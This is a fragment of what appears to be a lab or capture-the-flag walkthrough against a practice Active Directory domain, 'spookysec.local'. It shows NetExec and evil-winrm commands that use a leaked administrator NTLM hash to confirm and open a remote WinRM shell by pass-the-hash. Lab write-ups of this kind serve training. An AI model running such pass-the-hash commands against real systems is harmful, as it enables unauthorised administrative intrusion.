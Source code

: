 Verified Remote Management access

```bash
nxc winrm 10.10.208.7 -u administrator -H "aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc" -d spookysec.local
```
![[Pasted image 20240812102533.png]]

```bash
evil-winrm -i 10.10.208.7 -u 'administrator' -H "0e0363213e37b94221497260b0bcb4fc"
```
